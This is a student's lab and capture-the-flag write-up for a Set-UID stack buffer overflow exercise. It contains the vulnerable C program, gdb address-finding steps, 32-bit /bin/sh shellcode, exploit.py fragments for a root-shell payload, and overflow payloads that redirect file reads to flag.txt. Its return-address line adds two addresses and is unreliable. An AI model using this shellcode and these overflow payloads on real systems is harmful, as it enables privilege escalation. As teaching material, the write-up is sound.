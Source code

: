 # Buffer Overflow Attack Lab (Set-UID Version)

## Task 1
On the terminal, after running the a32.out or the a64.out files, a shell is generated. Initially this shell is placed inside the folder that contains those same files and allows us to write any shellcode and execute it.

## Task 2
We are supposed to run an exploit in the given C file:

#include <stdlib.h>
#include <stdio.h>
#include <string.h>

/* Changing this size will change the layout of the stack.
 * Instructors can change this value each year, so students
 * won't be able to use the solutions from the past.
 */
 
#ifndef BUF_SIZE
#define BUF_SIZE 100
#endif

void dummy_function(char *str);

int bof(char *str)
{
    char buffer[BUF_SIZE];

    // The following statement has a buffer overflow problem 
    strcpy(buffer, str);       

    return 1;
}

int main(int argc, char **argv)
{
    char str[517];
    FILE *badfile;

    badfile = fopen("badfile", "r"); 
    if (!badfile) {
       perror("Opening badfile"); exit(1);
    }

    int length = fread(str, sizeof(char), 517, badfile);
    printf("Input size: %d\n", length);
    dummy_function(str);
    fprintf(stdout, "==== Returned Properly ====\n");
    return 1;
}

// This function is used to insert a stack frame of size 
// 1000 (approximately) between main's and bof's stack frames. 
// The function itself does not do anything. 
void dummy_function(char *str)
{
    char dummy_buffer[1000];
    memset(dummy_buffer, 0, 1000);
    bof(str);
}

The file has a buffer overflow vunerability in the strcpy command because the function doesn't check for boundaries, that means that if the program is a root owned set-UID file we can feed the function a string that makes it spawn a root shell

For this to be exploitable it is needed for the OS safeguards be turned off and for the the code to be compiled with the following flags 

-z execstack -fno-stack-protector

## Task 3

First we need to find the address of where our program is running in the memory. In order to do that we have to compile the program on debug mode (-g option). When debugging we will be able to find the ebp and offset so we can have the right buffer payload to run our program. 

Running our program in debug mode:
`gdb stack-L1-dbg`

Then we set a breakpoint on bof and then run the program:

`b bof`
output: Breakpoint 1 at 0x12ad: file stack.c, line 16.

`run`
The program stops when hits the bof function because of the breakpoint that we created. The values of the stack frame for this function will be used on the badfile. 

`p $ebp`
output: $1 = (void *) 0xffffcfb8

`p &buffer`
output: $2 = (char (*)[100]) 0xffffcb3c

As we can see, the frame pointer is on 0xffffcfb8, so the return address must be stores at 0xffffcfb8+4, then the first address we can jump is 0xffffcfb8+8. 
We need to know where we should store the return address in the input in order for it to be stored in the return address filed in the slack. We can find that just by doing the diference between return and buffer start address.
`p/d 0xffffcfb8 - 0xffffcb3c`
output: $3 = 1148

As we can see the distance between the return address and the start buffer is 1148+4 so the return address must be storires with offset of 1152 in badfile.

**We now have to edit the file exploit.py to fill the content for badfile.** 

**We used a 32 bit shellcode:**

shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
"\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
"\xd2\x31\xc0\xb0\x0b\xcd\x80" 
).encode('latin-1')

**we know that our string size is 517, so we should start at 517 minus the lenght of our shellcode**

start = 517-len(shellcode)   

**The content should be the shellcode itself**

content[start: start+len(shellcode)] = shellcode

**The return adress is given by the buffer and the ebp:**

buff =  0xffffcb3c

ebp =   0xffffcfb8

offset = ebp - buff + 4

ret = buff + ebp + 200

By compiling and executing our program exploit.py, we will generate the badfile content. 
After running our program` ./stack` we shoud be able to gain control as a root, that is, a shell prompt will be available. 

# Challenge 1
Analyzing the source code of the program in question, you can see that it reads a file identified by the string meme_file.

```c
char meme_file[8] = "mem.txt\0";
char buffer[20];
```

By modifying the content of this string, which by definition has the value mem.txt\0, it is possible to control the file that is being read.

To do this, it is possible to take advantage of a buffer-overflow present in the program.

The buffer string has 20 characters allocated, however, 28 characters are read by scanf.
The extra 8 characters that we write will be inserted into the meme_file string.

So, just write any 20 characters (bytes) in the terminal and add "flag.txt" at the end, so that the contents of meme_file will change and the file to be read will be the one containing the flag.

```python
r.sendline(b"aaaaaaaaaaaaaaaaaaaaflag.txt")
```
## Result:
By running python3 exploit-example.py
![imagem CMD](https://git.fe.up.pt/fsi/fsi2223/l08g06/-/blob/main/desafio1.jpg)

# Challenge 2

In the new version of the code, an extra check (val == 0xfefc2223) has been added to make it more difficult to read the file, however, this does not completely mitigate the problem as it is still possible to bypass it using a similar technique as in the previous challenge.

```c
char val[4] = "\xef\xbe\xad\xde";
...
if(*(int*)val == 0xfefc2223) { ... } else { ... }
```

The only added difficulty to this challenge that challenge 1 didn't have, was to write the Hex into the sendline to be accepted and use flag.txt afterwards.

```python
r.sendline(b'12345678912345678912\x23\x22\xfc\xfeflag.txt')
```

## Result:
By running python3 exploit-example.py
![imagem CMD](https://git.fe.up.pt/fsi/fsi2223/l08g06/-/blob/main/desafio2.jpg)
